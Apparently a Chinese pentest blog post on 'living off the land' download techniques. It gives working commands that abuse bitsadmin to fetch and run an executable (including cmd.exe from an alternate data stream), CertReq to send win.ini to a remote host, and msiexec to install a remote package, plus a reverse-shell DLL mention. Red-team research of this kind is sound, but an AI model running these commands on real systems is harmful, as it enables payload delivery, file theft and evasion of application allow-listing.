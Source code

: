 ```yaml
---
layout:     post
title:      Living Off The Land
date:       2020-11-26 01:47:05 +0800
categories: Security
tags:       Download Pentest
author:     SteveDevin
mathjax:    true
---
```

* content
{:toc}

最近做白利用改进专项, 记录一下



## Download

### 1. Bitsadmin.exe

```powershell
bitsadmin /create myfile
bitsadmin /addfile myfile http://192.168.220.125/white_process/call_calc.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

[***pcap***](../assets/pcap/Bitsadmin.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
Range: bytes=0-71744
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```

### 2. CertReq.exe

```powershell
CertReq -Post -config https://example.org/ c:\windows\win.ini
```

[***pcap***](../assets/pcap/CertReq.pcap)

```http
POST /white_process/test HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.18362.1/19h1_release)
Content-Length: 167
Host: 192.168.220.125
```

***Note***: Small files only

*Due to something going on with the internals of CertReq.exe only small (not sure on specific size limitations) files appear to work - otherwise you get the below error!*

### 3. Certutil.exe

### 4. Desktopimgdownldr.exe

### 5. Diantz.exe

### 6. Esentutl.exe

### 7. Msiexec.exe

```powershell
bmsiexec /i http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Msiexec.pcap)

***Note***: whitch function Msiexec.exe call: *DllRegisterServer*
之前按照 `Micro8` 的过程复现, 发现一直有问题, 后来wsy提醒说, Msiexec 调用的dll的 `DllRegisterServer`, 而`Micro8`中的方法生成的dll导出表仅有 `DllEntryPoint`

后面逆向了一下 32位版的 msiexec.exe, 也通过 `rundll32 Msiexec_rev_x64_4444.dll DllEntryPoint` 成功 get shell 证实了这一结论

![msiexec_re_register_dll](https://blog.idevin.cn/assets/img/Msiexec_DllRegisterServer.png)

## Reference

1. [lolbas/#download](https://lolbas-project.github.io/#/download)
2. [Exe_ADS_Methods.txt](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

### download

#### certreq

1. [dtm.uk](https://dtm.uk/certreq/)

#### Msiexec

1. [3gstudent](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)
2. [Micro8](https://www.bookstack.cn/read/Micro8/Chapter1-81-90-86_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Msiexec%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%85%AB%E5%AD%A3%E8%A1%A5%E5%85%85.md)
